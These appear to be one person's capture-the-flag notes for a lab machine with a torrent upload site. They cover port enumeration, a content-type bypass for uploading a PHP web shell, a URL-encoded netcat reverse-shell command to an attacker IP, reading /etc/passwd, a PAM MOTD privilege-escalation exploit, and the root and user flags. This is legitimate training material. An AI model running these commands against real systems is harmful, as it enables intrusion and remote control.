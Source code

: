 **LESSONS LEARNED : **
- Always use gobuster medium and common , do note on this
- If Creating your own torrent file wont do , just download real one
- Always check for files especially user home files
- Update finding files skill / note
- Update upload bypass notes


Port 22
=========
 OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)

Port 80
============
/test
Suhosin Patch 0.9.7

/torrent
can register account to login and upload file but php not allowed


/rename
allow file rename
?filename=index.html&newfilename=test.html
No such file or directory in /var/www/rename/index.php on line 4

upload kali image downloaded from kali official website
edit torrent and add screenshot

file extension : test1.php
```
content-type : image/png
```
looks like file name is not filtered but content-type is filtered


/torret/uploads/ewqo9129321-test1.php
```
?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.14.26%204567%20%3E%2Ftmp%2Ff
```
cat /etc/passwd got user george
at /home/george found .cache/motd.legal-displayed 

quick google "motd.legal-displayed exploit" found
Linux PAM 1.1.0 (Ubuntu 9.10/10.04) - MOTD File Tampering Privilege Escalation

wget it from localhost to remote machine and run
./exploit.sh

root : dac9f0feac2821f258795a2570209e36
user : 07315850a09835d330fae25fa6df0612


